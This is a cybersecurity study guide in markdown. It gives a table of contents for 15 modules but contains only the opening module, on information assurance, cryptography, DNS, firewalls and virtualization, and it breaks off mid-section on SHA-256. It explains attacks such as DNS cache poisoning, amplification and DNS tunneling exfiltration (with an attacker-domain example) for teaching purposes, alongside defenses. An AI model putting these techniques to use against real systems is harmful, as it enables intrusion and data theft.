# CYBER SECURITY ESSENTIALS & LINUX SECURITY ARCHITECTURE
## Comprehensive Technical Reference Manual & Master Study Guide
**Document Classification:** Enterprise Cyber Security & Operating System Hardening Master Notes  
**Target Coverage:** Complete Core Cyber Security Domains & Deep Linux Security Subsystems  
**Primary Source Material:**
- *Cyber Security Essentials* (James Graham, Richard Howard, Ryan Olson – Auerbach Publications / CRC Press)
- *Linux Kernel Security Subsystem Architecture Specifications* (DAC, LSM, SELinux, AppArmor, Namespaces, Cgroups, Seccomp, Netfilter)
- *NIST Special Publications* (SP 800-53, SP 800-63B, SP 800-90A) & *OWASP Top 10 Enterprise Standards*

---

## Executive Summary & Guide Roadmap

Modern cybersecurity is an asymmetric discipline spanning computer architecture, network protocols, operating system internals, cryptographic mathematics, and human psychological factors. To defend complex systems or analyze sophisticated threat actors, security engineers and systems architects must understand security not as isolated silos, but as an interconnected stack.

This master guide establishes an exhaustive, publication-grade reference manual spanning **15 comprehensive modules** organized across four foundational domains:

1. **Foundations of Security & Windows OS Architecture (Modules 1–2)**:
   - Information Assurance pillars (Confidentiality, Integrity, Availability, Authentication, Authorization, Non-Repudiation).
   - Modern Cryptographic Primitives (Symmetric stream/block ciphers, Asymmetric key exchange and digital signatures, SHA-2/SHA-3 and HMACs).
   - Core Internet Protocols & Defenses (DNS, DNSSEC, Packet-filtering, Stateful, and Application Gateway Firewalls, Virtualization threat models).
   - Windows Operating System Security Architecture (Security Access Tokens, SIDs, DACLs, SACLs, Windows Messaging Subsystem, Shatter attacks, and the complete PE program execution lifecycle).
2. **Attacker Infrastructure, Social Engineering & Threat Operations (Modules 3–4)**:
   - Anonymization circuits, HTTP/SOCKS proxies, TOR onion routing, and proxy detection.
   - Covert Tunneling & Protocol Smuggling (HTTP encapsulation, DNS tunneling exfiltration, ICMP tunnels).
   - Botnet Command and Control (C2) topologies (Centralized IRC/HTTP vs. Decentralized P2P) and Fast-Flux / Double Fast-Flux DNS networks.
   - Social Engineering vectors (Mass Phishing, Spear-Phishing, BEC, Smishing, Vishing, AI Deepfakes), Rogue Antivirus scareware pipelines, and Pay-Per-Click Click Fraud networks.
3. **Exploitation, Malware Engineering & Defensive Forensics (Modules 5–9)**:
   - Low-level Software Vulnerabilities: x86/x86_64 call stack mechanics, stack-based buffer overflows, NOP sleds, shellcode construction, integer overflows, format string vulnerabilities, and TOCTOU race conditions.
   - Web Application Exploits & Network DoS: SQL Injection (In-band, Blind, Error-based) and Prepared Statement defenses, Cross-Site Scripting (Stored, Reflected, DOM), Malicious PDF document architecture, and Network Amplification attacks (SYN floods, DNS/NTP reflection).
   - Malware Taxonomy, Evasion & Persistence: Viruses, Worms, Trojans, Spyware, Ransomware; Packers, Crypters, Polymorphic and Metamorphic engines; Anti-Debugging, CPUID/Sandbox detection; and firmware/OS persistence mechanisms.
   - Advanced Capabilities & Memory Forensics: User-mode vs Kernel-mode Rootkits (IAT hooking, Inline Detours, SSDT hooking, DKOM), Token Kidnapping, DLL Injection (Classic, AppInit, Reflective), Volatile Memory Forensics with Volatility (VAD tree parsing, unlinked process detection), and Honeypot deception systems.
4. **Comprehensive Linux Security Fundamentals (Modules 10–14)**:
   - Linux Multi-User Philosophy & Discretionary Access Control (DAC): File triplets (`rwx`), numeric modes, directory permissions, SUID/SGID/Sticky bits, GTFOBins exploitation, `umask` calculations, and POSIX ACLs.
   - Mandatory Access Control (MAC) & Linux Security Modules (LSM): SELinux architecture (Type Enforcement, security contexts, AVC cache, Enforcing/Permissive modes, `semanage`, boolean toggles, `audit2allow`), and AppArmor path-based profile management.
   - Linux Authentication & Credentials: Shadow password file hashing algorithms (`$1$` MD5, `$5$` SHA-256, `$6$` SHA-512, `$y$` Yescrypt), Pluggable Authentication Modules (PAM) architecture (`auth`, `account`, `password`, `session`), control flags, and brute-force lockout (`pam_faillock`).
   - Process & Container Isolation Architecture: The Seven Linux Kernel Namespaces, Control Groups (cgroups v1 vs v2 resource limits), Linux Capabilities decomposing root authority, and Seccomp-BPF system call filtering.
   - Network Defense & Exploit Hardening: Netfilter packet processing hooks, `iptables` vs modern `nftables`, SSH server hardening (`sshd_config`), Linux Audit Framework (`auditd`), and kernel-level mitigations (KASLR, Stack Canaries, DEP/NX, KPTI, sysctl hardening).



---

## Detailed Table of Contents

- [Executive Summary & Guide Roadmap](#executive-summary--guide-roadmap)
- [Module 1: Information Assurance Fundamentals, Cryptography & Network Infrastructure](#module-1-information-assurance-fundamentals-cryptography--network-infrastructure)
  - [1.1 The Information Assurance Foundation: Beyond the CIA Triad](#11-the-information-assurance-foundation-beyond-the-cia-triad)
  - [1.2 Cryptographic Foundations: Symmetric, Asymmetric & Hashing](#12-cryptographic-foundations-symmetric-asymmetric--hashing)
  - [1.3 The Domain Name System (DNS) Architecture & Security Exploits](#13-the-domain-name-system-dns-architecture--security-exploits)
  - [1.4 Perimeter Defense: Firewall Architectures & Evolution](#14-perimeter-defense-firewall-architectures--evolution)
  - [1.5 Virtualization Security & Hypervisor Architectures](#15-virtualization-security--hypervisor-architectures)
- [Module 2: Windows Operating System Security Architecture & Process Execution](#module-2-windows-operating-system-security-architecture--process-execution)
  - [2.1 The Windows Security Model: SIDs, Tokens & Descriptors](#21-the-windows-security-model-sids-tokens--descriptors)
  - [2.2 Windows Messaging Subsystem & Shatter Attacks](#22-windows-messaging-subsystem--shatter-attacks)
  - [2.3 The Windows PE Program Execution Lifecycle](#23-the-windows-pe-program-execution-lifecycle)
- [Module 3: Attacker Infrastructure, Anonymization & Tunneling Techniques](#module-3-attacker-infrastructure-anonymization--tunneling-techniques)
  - [3.1 Proxies, Relays & Anonymization Networks](#31-proxies-relays--anonymization-networks)
  - [3.2 Covert Tunneling & Protocol Smuggling](#32-covert-tunneling--protocol-smuggling)
  - [3.3 Botnet Command & Control (C2) Architectures](#33-botnet-command--control-c2-architectures)
  - [3.4 Fast-Flux DNS & Resilient Hosting Networks](#34-fast-flux-dns--resilient-hosting-networks)
- [Module 4: Social Engineering, Fraud & Deception Campaigns](#module-4-social-engineering-fraud--deception-campaigns)
  - [4.1 Social Engineering Vectors: Phishing, Smishing & Vishing](#41-social-engineering-vectors-phishing-smishing--vishing)
  - [4.2 Rogue Antivirus & Scareware Monetization Pipelines](#42-rogue-antivirus--scareware-monetization-pipelines)
  - [4.3 Click Fraud Architecture & Pay-Per-Click Exploitation](#43-click-fraud-architecture--pay-per-click-exploitation)
- [Module 5: Software Vulnerabilities & Memory Corruption Exploitation](#module-5-software-vulnerabilities--memory-corruption-exploitation)
  - [5.1 The x86 / x86_64 Process Memory Architecture & Stack Mechanics](#51-the-x86--x86_64-process-memory-architecture--stack-mechanics)
  - [5.2 Stack-Based Buffer Overflows](#52-stack-based-buffer-overflows)
  - [5.3 Integer Overflows, Underflows & Signedness Flaws](#53-integer-overflows-underflows--signedness-flaws)
  - [5.4 Format String Vulnerabilities](#54-format-string-vulnerabilities)
  - [5.5 Race Conditions & Time-of-Check to Time-of-Use (TOCTOU)](#55-race-conditions--time-of-check-to-time-of-use-toctou)
- [Module 6: Web Application Attacks & Network Denial of Service](#module-6-web-application-attacks--network-denial-of-service)
  - [6.1 SQL Injection (SQLi) Mechanics & Defenses](#61-sql-injection-sqli-mechanics--defenses)
  - [6.2 Cross-Site Scripting (XSS)](#62-cross-site-scripting-xss)
  - [6.3 Malicious PDF Document Exploitation](#63-malicious-pdf-document-exploitation)
  - [6.4 Denial of Service (DoS) & Network Amplification Attacks](#64-denial-of-service-dos--network-amplification-attacks)
- [Module 7: Malware Taxonomy, Evasion & Persistence Techniques](#module-7-malware-taxonomy-evasion--persistence-techniques)
  - [7.1 Malware Taxonomy: Structural Classifications](#71-malware-taxonomy-structural-classifications)
  - [7.2 Evasion & Code Obfuscation: Packers, Crypters & Polymorphism](#72-evasion--code-obfuscation-packers-crypters--polymorphism)
  - [7.3 Anti-Analysis, Anti-Debugging & Virtual Machine Detection](#73-anti-analysis-anti-debugging--virtual-machine-detection)
  - [7.4 System Persistence Mechanisms](#74-system-persistence-mechanisms)
- [Module 8: Advanced Malware Capabilities & Privilege Escalation](#module-8-advanced-malware-capabilities--privilege-escalation)
  - [8.1 Rootkit Architectures: User-Mode vs. Kernel-Mode](#81-rootkit-architectures-user-mode-vs-kernel-mode)
  - [8.2 DLL Injection Techniques](#82-dll-injection-techniques)
  - [8.3 Token Kidnapping & Windows Privilege Escalation](#83-token-kidnapping--windows-privilege-escalation)
- [Module 9: Memory Forensics, Threat Detection & Honeypots](#module-9-memory-forensics-threat-detection--honeypots)
  - [9.1 Memory Forensics: The Volatility Framework & VAD Analysis](#91-memory-forensics-the-volatility-framework--vad-analysis)
  - [9.2 Deception Technologies: Honeypots, Honeynets & Honeytokens](#92-deception-technologies-honeypots-honeynets--honeytokens)
- [Module 10: Linux Security Fundamentals: Discretionary Access Control (DAC)](#module-10-linux-security-fundamentals-discretionary-access-control-dac)
  - [10.1 The Linux Multi-User Security Philosophy](#101-the-linux-multi-user-security-philosophy)
  - [10.2 Standard File Permissions & Octal Representation](#102-standard-file-permissions--octal-representation)
  - [10.3 Special Permissions: SUID, SGID & The Sticky Bit](#103-special-permissions-suid-sgid--the-sticky-bit)
  - [10.4 The Umask & POSIX Access Control Lists (ACLs)](#104-the-umask--posix-access-control-lists-acls)
- [Module 11: Linux Mandatory Access Control: SELinux & AppArmor](#module-11-linux-mandatory-access-control-selinux--apparmor)
  - [11.1 The Limitation of DAC & The Need for Mandatory Access Control (MAC)](#111-the-limitation-of-dac--the-need-for-mandatory-access-control-mac)
  - [11.2 The Linux Security Modules (LSM) Kernel Framework](#112-the-linux-security-modules-lsm-kernel-framework)
  - [11.3 SELinux Architecture & Policy](#113-selinux-architecture--policy)
  - [11.4 AppArmor: Path-Based Mandatory Access Control](#114-apparmor-path-based-mandatory-access-control)
- [Module 12: Linux User Authentication, Credentials & PAM](#module-12-linux-user-authentication-credentials--pam)
  - [12.1 Linux Credential Storage: /etc/passwd vs. /etc/shadow](#121-linux-credential-storage-etcpasswd-vs-etcshadow)
  - [12.2 Pluggable Authentication Modules (PAM) Architecture](#122-pluggable-authentication-modules-pam-architecture)
  - [12.3 Hardening Authentication: Account Lockout & Password Complexity](#123-hardening-authentication-account-lockout--password-complexity)
- [Module 13: Linux Process Isolation: Namespaces, Cgroups, Seccomp & Capabilities](#module-13-linux-process-isolation-namespaces-cgroups-seccomp--capabilities)
  - [13.1 Container Isolation Building Blocks: Namespaces & Cgroups](#131-container-isolation-building-blocks-namespaces--cgroups)
  - [13.2 The Seven Core Linux Namespaces](#132-the-seven-core-linux-namespaces)
  - [13.3 Linux Capabilities: Decomposing the Omnipotent Root](#133-linux-capabilities-decomposing-the-omnipotent-root)
  - [13.4 Seccomp & Seccomp-BPF (Secure Computing Mode)](#134-seccomp--seccomp-bpf-secure-computing-mode)
- [Module 14: Linux Network Defense, Auditing & Exploit Hardening](#module-14-linux-network-defense-auditing--exploit-hardening)
  - [14.1 The Netfilter Packet Filtering Architecture: iptables vs. nftables](#141-the-netfilter-packet-filtering-architecture-iptables-vs-nftables)
  - [14.2 Secure Shell (SSH) Host Hardening](#142-secure-shell-ssh-host-hardening)
  - [14.3 The Linux Auditing Framework (auditd)](#143-the-linux-auditing-framework-auditd)
  - [14.4 Linux Kernel Exploit Mitigations & Sysctl Hardening](#144-linux-kernel-exploit-mitigations--sysctl-hardening)
- [Module 15: Master Technical Glossary & Comprehensive Acronym Index](#module-15-master-technical-glossary--comprehensive-acronym-index)

---

# Module 1: Information Assurance Fundamentals, Cryptography & Network Infrastructure

## 1.1 The Information Assurance Foundation: Beyond the CIA Triad

Information security in modern enterprise, defense, and cloud systems is anchored in the principles of **Information Assurance (IA)**. While traditional computer security historically prioritized data confidentiality, comprehensive operational assurance requires a holistic multidimensional model encompassing six core pillars:



### Detailed Pillar Breakdown
1. **Confidentiality**: Assures that sensitive information is shielded from interception, snooping, or unauthorized disclosure. Enforced via symmetric/asymmetric encryption, access control mechanisms, and physical isolation.
2. **Integrity**: Assures that data and software remain uncorrupted by unauthorized modification, deletion, injection, or hardware failure. Enforced via cryptographic hash digests (SHA-256, SHA-3), Message Authentication Codes (HMAC), and digital signatures.
3. **Availability**: Assures that computing resources, network fabrics, and data storage are readily accessible to authorized users whenever required. Threat models include Distributed Denial of Service (DDoS), ransomware locking, hardware faults, and power grid failures. Enforced through redundant clustering, load balancing, fault tolerance, and Disaster Recovery (DR) architectures.
4. **Authentication**: The mathematical or procedural verification of an asserted identity (user, host, service, or API). Mechanisms include single-factor (passwords), multi-factor authentication (MFA: possession, knowledge, inherence), cryptographic certificates (X.509), and hardware tokens (FIDO2/WebAuthn).
5. **Authorization**: The enforcement mechanism determining whether an authenticated subject possesses the legal entitlement to execute a requested action upon an object. Enforced via Discretionary Access Control (DAC), Mandatory Access Control (MAC), Role-Based Access Control (RBAC), and Attribute-Based Access Control (ABAC).
6. **Non-Repudiation**: The cryptographic guarantee that an entity cannot refute having initiated an action, transmitted a message, or approved a transaction. Enforced via asymmetric digital signatures and immutable audit trails anchored in trusted timestamping authorities.

---

## 1.2 Cryptographic Foundations: Symmetric, Asymmetric & Hashing

Cryptography constitutes the primary mathematical toolkit for enforcing confidentiality, integrity, and authentication.



### 1. Symmetric Cryptography
Symmetric ciphers rely on a single shared secret key ($K$) known to both the communicating parties. The key space must be sufficiently large to preclude brute-force exploration (minimum 128 bits; modern enterprise standard is AES-256).

- **Stream Ciphers**:
  - Encrypt plaintext byte-by-byte or bit-by-bit by performing an exclusive OR (XOR, $\oplus$) operation between plaintext bits ($P_i$) and a pseudorandom keystream ($K_i$) generated by a cryptographic seed:
    $$C_i = P_i \oplus K_i, \quad P_i = C_i \oplus K_i$$
  - *Vulnerability of Keystream Reuse (Two-Time Pad)*: If the same keystream $K$ is ever used to encrypt two different plaintexts $P_1$ and $P_2$:
    $$C_1 \oplus C_2 = (P_1 \oplus K) \oplus (P_2 \oplus K) = P_1 \oplus P_2$$
    An attacker cancels out the key entirely, enabling trivial linguistic plaintext recovery.
- **Block Ciphers & Modes of Operation**:
  - Transform fixed-size blocks of plaintext (e.g., 128 bits for AES) into identical-sized ciphertext blocks.
  - *Electronic Codebook (ECB)*: Encrypts each 128-bit block independently with the same key. **Insecure**: Identical plaintext blocks produce identical ciphertext blocks, preserving structural data patterns (the famous "ECB Penguin" leak).
  - *Cipher Block Chaining (CBC)*: Each plaintext block is XORed with the preceding ciphertext block before encryption, initialized with an unpredictable Initialization Vector (IV).
  - *Galois/Counter Mode (GCM)*: An Authenticated Encryption with Associated Data (AEAD) mode providing line-speed confidentiality and integrity verification via universal hashing.

### 2. Asymmetric Cryptography (Public-Key Cryptography)
Asymmetric systems utilize mathematically related key pairs: a **Public Key** ($K_{\text{pub}}$) openly distributed to the world, and a **Private Key** ($K_{\text{priv}}$) strictly guarded by the owner.
- **Diffie-Hellman Key Exchange (DH / ECDH)**: Enables two mutually untrusted parties to establish a shared symmetric secret across an insecure, sniffed communications channel without transmitting the key itself.
- **RSA**: Rooted in the integer factorization problem of large composite numbers $n = p \cdot q$.
- **Elliptic Curve Cryptography (ECC)**: Rooted in the discrete logarithm problem over elliptic curves (e.g., Curve25519, NIST P-384). Achieves equivalent cryptographic security to RSA with drastically smaller key sizes (e.g., 256-bit ECC $\approx$ 3072-bit RSA), saving CPU cycles and network bandwidth.

---

## 1.3 The Domain Name System (DNS) Architecture & Security Exploits

The **Domain Name System (DNS)** serves as the fundamental directory service of the Internet, translating human-readable Fully Qualified Domain Names (FQDNs like `api.corporate.internal`) into machine-routable IPv4/IPv6 addresses.



### Major DNS Attack Vectors
1. **DNS Cache Poisoning (Kaminsky Attack)**:
   - Attackers flood recursive resolvers with forged DNS responses containing spoofed Authoritative Name Server records.
   - If the attacker successfully guesses the 16-bit **DNS Transaction ID (TXID)** and UDP source port before the legitimate authoritative server responds, the recursive cache stores the malicious IP mapping for the duration of the Time-To-Live (TTL).
2. **DNS Amplification & Reflection DDoS**:
   - Attackers emit spoofed UDP queries targeting open recursive resolvers with the `ANY` record request, forging the victim's source IP address.
   - The resolvers respond to the victim with enormous multi-kilobyte responses, achieving amplification factors of $50\times$ to $100\times$.
3. **DNS Tunneling**:
   - Encapsulates non-DNS protocols (SSH, HTTP, command-and-control beacons, exfiltrated files) within standard DNS query labels (`base64data.c2.attacker.com`). Bypasses perimeter firewalls because port 53 UDP traffic is almost universally permitted egress.
4. **Defensive Standard: DNSSEC**:
   - Cryptographically signs DNS resource records using asymmetric signatures (`RRSIG`, `DNSKEY`, `DS` records).
   - Establishes a hierarchical chain of trust from the ICANN DNS Root zone down to domain records, eliminating spoofing and cache poisoning.

---

## 1.4 Perimeter Defense: Firewall Architectures & Evolution

Firewalls enforce boundary security policies by inspecting, filtering, and governing traffic traversing network segments.



### Comparative Firewall Engine Mechanics

| Feature / Capability | Stateless Packet Filter | Stateful Inspection Firewall | Application Layer Gateway (Proxy / NGFW) |
| :--- | :--- | :--- | :--- |
| **OSI Layer** | Layer 3 & Layer 4 | Layer 3 & Layer 4 (State-aware) | Layer 7 (Application Layer) |
| **Performance / Throughput** | Maximum (Line rate, ASIC accelerated) | High (State table lookup) | Moderate to Low (CPU intensive stream reassembly) |
| **Connection State Awareness** | None. Treats every packet as an isolated event. | Yes. Tracks TCP states (`NEW`, `ESTABLISHED`, `RELATED`). | Full protocol state machine modeling. |
| **Egress Inspection** | Must open static high ports ($>1023$) for replies. | Automatically allows valid response packets. | Proxies connection; client never talks directly to server. |
| **Payload / Exploit Inspection** | Zero payload inspection. | Zero payload inspection. | Inspects application payloads, detects SQLi, XSS, malware. |
| **Vulnerability to Spoofing** | Highly vulnerable to forged TCP flag combinations. | Resilient: Drops packets with invalid state transitions. | Immune to transport spoofing. |

---

## 1.5 Virtualization Security & Hypervisor Architectures

Modern cloud platforms run entirely on virtualized abstractions. Virtualization separates physical hardware from running operating systems via the **Hypervisor** (or Virtual Machine Monitor - VMM).



### Virtualization Attack Vectors
1. **VM Escape**: An exploit where code executing within a guest virtual machine breaks through isolation boundaries to execute arbitrary code within the host hypervisor context (e.g., VENOM vulnerability in virtual floppy disk controllers).
2. **Cross-VM Side-Channel Attacks**: Exploiting shared physical hardware resources (shared CPU L3 caches, memory controllers, branch prediction units) to infer cryptographic keys or keystroke timings from a co-located tenant VM (e.g., Flush+Reload, Prime+Probe).
3. **Hyperjacking**: The covert installation of a malicious hypervisor beneath a running host operating system, granting the attacker stealth persistence beneath all OS-level antivirus and monitoring tooling.

---
---

## 1.6 Cryptographic Deep Dive: Mathematics, Ciphers & Algorithms

### 1. Advanced Encryption Standard (AES) Internal Transformations
AES (FIPS PUB 197) is a symmetric substitution-permutation network operating on a $4 \times 4$ column-major matrix of bytes known as the **State**:
- **Key Sizes & Rounds**:
  - AES-128: 10 Rounds (Key schedule expands 16 bytes to 176 round key bytes).
  - AES-192: 12 Rounds (Key schedule expands 24 bytes to 208 round key bytes).
  - AES-256: 14 Rounds (Key schedule expands 32 bytes to 240 round key bytes).
- **The Four Round Transformations**:
  1. `SubBytes`: Non-linear byte substitution using a Rijndael S-Box derived from the multiplicative inverse over Galois Field $GF(2^8)$ combined with an affine transformation (provides non-linearity and defeats linear/differential cryptanalysis).
  2. `ShiftRows`: Cyclically shifts the rows of the state by varying offsets (Row 0: 0 bytes, Row 1: 1 byte, Row 2: 2 bytes, Row 3: 3 bytes) to provide diffusion across columns.
  3. `MixColumns`: Matrix multiplication in $GF(2^8)$ modulo polynomial $x^4 + 1$ operating on State columns, ensuring that changing one bit in plaintext influences all 16 State bytes within two rounds (the Avalanche Effect).
  4. `AddRoundKey`: Bitwise XOR between the 128-bit State and the round subkey.

```
AES Round Processing Sequence:
  Plaintext (16 Bytes) ---> AddRoundKey(Round 0)
                                |
                   +------------+------------+
                   | Standard Round Loop     |
                   | (9 / 11 / 13 Rounds)    |
                   | 1. SubBytes             |
                   | 2. ShiftRows            |
                   | 3. MixColumns           |
                   | 4. AddRoundKey(Round i) |
                   +------------+------------+
                                |
                   +------------+------------+
                   | Final Round             |
                   | 1. SubBytes             |
                   | 2. ShiftRows            |
                   | (MixColumns Omitted!)   |
                   | 3. AddRoundKey(Final)   |
                   +------------+------------+
                                |
                                v
                   Ciphertext (16 Bytes)
```

### 2. RSA Cryptographic Mathematics & Asymmetric Key Generation
The RSA cryptosystem relies on Euler's Totient Theorem:
1. Select two distinct large prime numbers, $p$ and $q$ (typically 1024 to 2048 bits each).
2. Compute the modulus:
   $$n = p \cdot q$$
3. Compute Euler's totient function:
   $$\phi(n) = (p - 1)(q - 1)$$
4. Select a public exponent $e$ such that $1 < e < \phi(n)$ and $\gcd(e, \phi(n)) = 1$ (the industry universal standard is $e = 65537 = 2^{16} + 1$).
5. Compute the private exponent $d$ using the Extended Euclidean Algorithm:
   $$d \equiv e^{-1} \pmod{\phi(n)} \iff d \cdot e \equiv 1 \pmod{\phi(n)}$$
6. **Key Pairs**: Public Key is $(e, n)$; Private Key is $(d, n)$.
   - Encryption of plaintext message $M < n$:
     $$C = M^e \pmod{n}$$
   - Decryption of ciphertext $C$:
     $$M = C^d \pmod{n}$$
   - *Security Requirement*: Plaintext must always be padded with Optimal Asymmetric Encryption Padding (OAEP) to prevent chosen-ciphertext attacks and Coppersmith lattice attacks.

### 3. SHA-256 Compression Function Internals
SHA-256 processes 512-bit message blocks through an 8-word internal working state ($A, B, C, D, E, F, G, H$):
- **Message Schedule Expansion**: The 512-bit block is expanded into 64 32-bit words ($W_0$ to $W_{63}$):
  $$W_t = \sigma_1(W_{t-2}) + W_{t-7} + \sigma_0(W_{t-15}) + W_{t-16}$$
- **The Compression Loop (64 Rounds)**:
